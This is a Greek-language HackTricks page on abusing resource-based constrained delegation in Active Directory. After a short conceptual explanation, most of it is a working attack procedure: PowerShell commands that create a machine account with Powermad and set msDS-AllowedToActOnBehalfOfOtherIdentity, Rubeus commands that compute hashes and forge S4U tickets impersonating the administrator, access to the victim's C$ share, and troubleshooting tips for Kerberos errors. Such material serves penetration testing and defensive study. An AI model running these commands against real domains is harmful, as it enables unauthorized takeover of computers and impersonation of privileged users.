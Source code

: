 # Περιορισμένη ανάθεση βάσει πόρων

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Ειδικός Red Team του HackTricks AWS)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs** στα [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## Βασικές αρχές της περιορισμένης ανάθεσης βάσει πόρων

Αυτό είναι παρόμοιο με τη βασική [Περιορισμένη Ανάθεση](constrained-delegation.md) αλλά **αντί** να δίνει δικαιώματα σε ένα **αντικείμενο να υποκαταστήσει οποιονδήποτε χρήστη έναντι ενός υπηρεσίας**. Η περιορισμένη ανάθεση βάσει πόρων **ορίζει στο αντικείμενο ποιος μπορεί να υποκαταστήσει οποιονδήποτε χρήστη έναντι αυτού**.

Σε αυτήν την περίπτωση, το περιορισμένο αντικείμενο θα έχει ένα χαρακτηριστικό που ονομάζεται _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ με το όνομα του χρήστη που μπορεί να υποκαταστήσει οποιονδήποτε άλλο χρήστη έναντι αυτού.

Μια άλλη σημαντική διαφορά από αυτήν την Περιορισμένη Ανάθεση στις άλλες αναθέσεις είναι ότι οποιοσδήποτε χρήστης με **δικαιώματα εγγραφής σε ένα λογαριασμό μηχανής** (_GenericAll/GenericWrite/WriteDacl/WriteProperty κλπ_) μπορεί να ορίσει το _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ (Στις άλλες μορφές Ανάθεσης χρειάζονταν δικαιώματα διαχειριστή του τομέα).

### Νέες Έννοιες

Πίσω στην Περιορισμένη Ανάθεση είχε αναφερθεί ότι η σημαία **`TrustedToAuthForDelegation`** μέσα στην τιμή _userAccountControl_ του χρήστη απαιτείται για να πραγματοποιηθεί ένα **S4U2Self**. Αλλά αυτό δεν είναι εντελώς αλήθεια.\
Η πραγματικότητα είναι ότι ακόμη και χωρίς αυτήν την τιμή, μπορείτε να πραγματοποιήσετε ένα **S4U2Self** εναντίον οποιουδήποτε χρήστη αν είστε ένα **service** (έχετε ένα SPN) αλλά, αν **έχετε το `TrustedToAuthForDelegation`** το επιστρεφόμενο TGS θα είναι **Forwardable** και αν **δεν έχετε** αυτήν τη σημαία το επιστρεφόμενο TGS **δεν** θα είναι **Forwardable**.

Ωστόσο, αν το **TGS** που χρησιμοποιείται στο **S4U2Proxy** **ΔΕΝ είναι Forwardable** προσπαθώντας να εκμεταλλευτείτε μια **βασική Περιορισμένη Ανάθεση** **δεν θα λειτουργήσει**. Αλλά αν προσπαθείτε να εκμεταλλευτείτε μια **Περιορισμένη Ανάθεση βάσει πόρων, θα λειτουργήσει** (αυτό δεν είναι μια ευπάθεια, είναι μια λειτουργία, φαίνεται).

### Δομή επίθεσης

> Αν έχετε **ισοδύναμα δικαιώματα εγγραφής** σε ένα **λογαριασμό Υπολογιστή** μπορείτε να αποκτήσετε **προνομιακή πρόσβαση** σε αυτό τον υπολογιστή.

Υποθέστε ότι ο επιτιθέμενος έχει ήδη **ισοδύναμα δικαιώματα εγγραφής στον υπολογιστή θύματος**.

1. Ο επιτιθέμενος **διαρρήγνει** ένα λογαριασμό που έχει ένα **SPN** ή **δημιουργεί έναν** (“Υπηρεσία Α”). Σημειώστε ότι **οποιοσδήποτε** _Διαχειριστής Χρήστης_ χωρίς κανένα άλλο ειδικό προνόμιο μπορεί να **δημιουργήσει** μέχρι 10 **αντικείμενα Υπολογιστή (**_**MachineAccountQuota**_**)** και να τους ορίσει ένα SPN. Έτσι ο επιτιθέμενος μπορεί απλά να δημιουργήσει ένα αντικείμενο Υπολογιστή και να ορίσει ένα SPN.
2. Ο επιτιθέμενος **καταχράζεται το δικαίωμα ΕΓΓΡΑΦΗΣ** του στον υπολογιστή θύματος (Υπηρεσία Β) για να ρυθμίσει **περιορισμένη ανάθεση βάσει πόρων για να επιτρέψει στην Υπηρεσία Α να υποκαταστήσει οποιονδήποτε χρήστη** έναντι αυτού του υπολογιστή θύματος (Υπηρεσία Β).
3. Ο επιτιθέμενος χρησιμοποιεί το Rubeus για να πραγματοποιήσει μια **πλήρη επίθεση S4U** (S4U2Self και S4U2Proxy) από την Υπηρεσία Α στην Υπηρεσία Β για έναν χρήστη **με προνομιακή πρόσβαση στην Υπηρεσία Β**.
1. S4U2Self (από τον λογαριασμό με τον SPN που διαρράγηκε/δημιουργήθηκε): Ζητήστε ένα **TGS του Διαχειριστή προς εμένα** (Μη Forwardable).
2. S4U2Proxy: Χρησιμοποιήστε το **μη Forwardable TGS** του προηγούμενου βήματος για να ζητήσετε ένα **TGS** από τον **Διαχειριστή** προς τον **υπολογιστή θύμα**.
3. Ακόμη κι αν χρησιμοποιείτε ένα μη Forwardable TGS, καθώς εκμεταλλεύεστε περιορισμένη ανάθεση βάσει πόρων, θα λειτουργήσει.
4. Ο επιτιθέμενος μπορεί να **περάσει το εισιτήριο** και να **υποκαταστήσει** τον χρήστη για να κερδίσει **πρόσβαση στην υπηρεσία Β θύματος**.

Για να ελέγξετε το _**MachineAccountQuota**_ του τομέα μπορείτε να χρησιμοποιήσετε:
```powershell
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```
## Επίθεση

### Δημιουργία ενός Αντικειμένου Υπολογιστή

Μπορείτε να δημιουργήσετε ένα αντικείμενο υπολογιστή μέσα στον τομέα χρησιμοποιώντας το [powermad](https://github.com/Kevin-Robertson/Powermad)**:**
```powershell
import-module powermad
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# Check if created
Get-DomainComputer SERVICEA
```
### Διαμόρφωση Περιορισμένης Ανάθεσης με Βάση τον Πόρο

**Χρησιμοποιώντας το άρθρωμα PowerShell του Active Directory**
```powershell
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount SERVICEA$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked
```
**Χρησιμοποιώντας το powerview**
```powershell
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```
### Εκτέλεση μιας πλήρους επίθεσης S4U

Καταρχάς, δημιουργήσαμε το νέο αντικείμενο Υπολογιστή με τον κωδικό πρόσβασης `123456`, οπότε χρειαζόμαστε το hash του συγκεκριμένου κωδικού:
```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```
Αυτό θα εκτυπώσει τις κατακευές RC4 και AES για αυτόν τον λογαριασμό.\
Τώρα, η επίθεση μπορεί να πραγματοποιηθεί:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```
Μπορείτε να δημιουργήσετε περισσότερα εισιτήρια απλά ρωτώντας μία φορά χρησιμοποιώντας την παράμετρο `/altservice` του Rubeus:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```
{% hint style="danger" %}
Σημειώστε ότι οι χρήστες έχουν ένα χαρακτηριστικό που ονομάζεται "**Δεν μπορεί να ανατεθεί**". Αν ένας χρήστης έχει αυτό το χαρακτηριστικό σε True, δεν θα μπορείτε να υποδείξετε την ταυτότητά του. Αυτή η ιδιότητα μπορεί να βρεθεί μέσα στο bloodhound.
{% endhint %}

### Πρόσβαση

Η τελευταία γραμμή εντολής θα εκτελέσει την **πλήρη επίθεση S4U και θα ενθυλακώσει το TGS** από τον Διαχειριστή στον υπολογιστή-θύμα στην **μνήμη**.\
Σε αυτό το παράδειγμα ζητήθηκε ένα TGS για την υπηρεσία **CIFS** από τον Διαχειριστή, οπότε θα μπορείτε να έχετε πρόσβαση στο **C$**:
```bash
ls \\victim.domain.local\C$
```
### Κατάχρηση διαφορετικών εισιτηρίων υπηρεσιών

Μάθετε για τα [**διαθέσιμα εισιτήρια υπηρεσιών εδώ**](silver-ticket.md#available-services).

## Σφάλματα Kerberos

* **`KDC_ERR_ETYPE_NOTSUPP`**: Αυτό σημαίνει ότι το Kerberos είναι ρυθμισμένο να μη χρησιμοποιεί DES ή RC4 και εσείς παρέχετε μόνο το hash RC4. Παρέχετε στο Rubeus τουλάχιστον το hash AES256 (ή απλά παρέχετε τα hashes rc4, aes128 και aes256). Παράδειγμα: `[Rubeus.Program]::MainString("s4u /user:FAKECOMPUTER /aes256:CC648CF0F809EE1AA25C52E963AC0487E87AC32B1F71ACC5304C73BF566268DA /aes128:5FC3D06ED6E8EA2C9BB9CC301EA37AD4 /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:Administrator /msdsspn:CIFS/M3DC.M3C.LOCAL /ptt".split())`
* **`KRB_AP_ERR_SKEW`**: Αυτό σημαίνει ότι ο χρόνος του τρέχοντος υπολογιστή είναι διαφορετικός από αυτόν του DC και το Kerberos δεν λειτουργεί σωστά.
* **`preauth_failed`**: Αυτό σημαίνει ότι το δεδομένο όνομα χρήστη + hashes δεν λειτουργούν για σύνδεση. Ίσως έχετε ξεχάσει να βάλετε το "$" μέσα στο όνομα χρήστη κατά τη δημιουργία των hashes (`.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local`)
* **`KDC_ERR_BADOPTION`**: Αυτό μπορεί να σημαίνει:
  * Ο χρήστης που προσπαθείτε να υποκαταστήσετε δεν μπορεί να έχει πρόσβαση στην επιθυμητή υπηρεσία (επειδή δεν μπορείτε να την υποκαταστήσετε ή διότι δεν έχει αρκετά προνόμια)
  * Η ζητούμενη υπηρεσία δεν υπάρχει (αν ζητήσετε ένα εισιτήριο για το winrm αλλά το winrm δεν εκτελείται)
  * Το fakecomputer που δημιουργήθηκε έχει χάσει τα προνόμια του πάνω στο ευάλωτο διακομιστή και πρέπει να τους επαναφέρετε.

## Αναφορές

* [https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object)
* [https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs** στα αποθετήρια του [**HackTricks**](https://github.com/carlospolop/hacktricks) και του [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) στο GitHub.

</details>
